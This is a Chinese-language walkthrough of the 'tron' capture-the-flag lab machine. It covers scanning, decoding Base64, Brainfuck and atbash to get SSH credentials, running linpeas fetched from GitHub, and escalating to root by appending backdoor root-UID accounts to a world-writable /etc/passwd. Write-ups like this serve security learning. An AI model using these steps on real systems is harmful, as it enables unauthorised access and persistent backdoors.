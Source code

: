 |  |  |  |  |
| ---- | ---- | ---- | ---- |
| tron | easy | 敏感信息收集、Brainfuck解密、替换密码、ssh利用、passwd提权 | 机发现 |
```C
netdiscover -i eth0 -r 192.168.44.0/24
```
# 端口服务
```C
nmap -sV -A -T4 -p- 192.168.44.135
```
# 目录扫描
```Css
gobuster dir  -u http://192.168.44.135/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

```cs
http://192.168.44.135/index.html
页面右键检查源代码
 kzhh:SbWP9q94ZtE9qD  
 
http://192.168.44.135/MCP/tron.txt
MASTER CONTROL PROGRAM
----------------------
Ram:
Do you believe in the Users?
Crom:
Sure I do! If I didn't have a User, than who wrote me? 
KysrKysrKysrK1s+Kz4rKys+KysrKysrKz4rKysrKysrKysrPDw8PC1dPj4+PisrKysrKysrKysrKy4tLS0tLi0tLS0tLS0tLS0tLisrKysrKysrKysrKysrKysrKysrKysrKy4tLS0tLS0tLS0tLS0tLS0tLS0tLS4rKysrKysrKysrKysrLg==


http://192.168.44.135/MCP/terminalserver/30513.txt
substitute
--------------------------
plaintext
abcdefghijklmnopqrstuvwxyz

ciphertext
zyxwvutsrqponmlkjihgfedcba
--------------------------


```

对kysr.............一长串的进行base64解码。再进行brainfuck解码得到`player` 
由substitute单词翻译是代替可以知道，这是简单的替换密码。替换格式也表明了明文（plaintext）密文(ciphertext)，就是把26字母倒叙替换，很容易写脚本
```python
import sys
args = sys.argv
def encrypt_plaintext(plaintext, ciphertext):
    """
    Encrypts plaintext by replacing lowercase letters with their corresponding letters in ciphertext.

    Args:
        plaintext (str): The input plaintext to be encrypted.
        ciphertext (str): The ciphertext string containing the replacement alphabet.

    Returns:
        str: The encrypted plaintext.
    """
    encrypted_text = ""
    for char in plaintext:
        if char.islower():
            index = ord(char) - ord('a')
            encrypted_text += ciphertext[index]
        else:
            encrypted_text += char
    return encrypted_text

# Given plaintext and ciphertext
plaintext = args[1]
ciphertext = "zyxwvutsrqponmlkjihgfedcba"

# Encrypt the plaintext
encrypted_plaintext = encrypt_plaintext(plaintext, ciphertext)
print("Encrypted Plaintext:", encrypted_plaintext)

```
得到密码。猜测账户就是player
```cs
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ python tron.py  kzhh:SbWP9q94ZtE9qD  
Encrypted Plaintext: pass:SyWP9j94ZgE9jD
```

# 提权

```C
┌──(root㉿kali)-[~]
└─# ssh player@192.168.44.135 //SyWP9j94ZgE9jD

player@tron:~$ cat user.txt 
HMVMuserplayer2021

player@tron:~$ ls /etc/passwd -al
-rw-r--rw- 1 root root 1399 May  1  2021 /etc/passwd

```

下载知名豌豆扫描工具linpeas发现passwd 有写入权限，那么我们可以直接写入一个root权限的用户或者更改他的账号密码
```css
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

```C
mkpasswd -m sha-512 //123
//把下面内容照着root的做修改成下面这样填入/etc/passwd
hack:$6$hxYB19Bb/77OJemB$PMJiiXKU7y2OLCD5GGO2F1hQwgsSUjEX2FyoUsQhOw4L5WlJ/26EMca3gmyMSFXtBeo4JAj5uWwv6rq.O8M6x1:0:0:root:/root:/bin/bash

su hack //123
```

# 方法二：passwd写入提权
```c
1、kali 生成密码  
perl -e 'print crypt("123456", "AA"). "\n"'
AASwmzPNx.3sg //密码：123456 ，AA 为盐
或者
生成密码： 
openssl passwd -1 -salt admin 123456 
-1 的意思是使用md5crypt加密算法 
-salt 指定盐为admin 123456 明文密码
2、生成后构造passwd文件中的条目
mysqld:AASwmzPNx.3sg:0:0:me:/root:/bin/bash
3、在被控制机器上添加后门
echo "mysqld:AASwmzPNx.3sg:0:0:me:/root:/bin/bash" >> /etc/passwd
```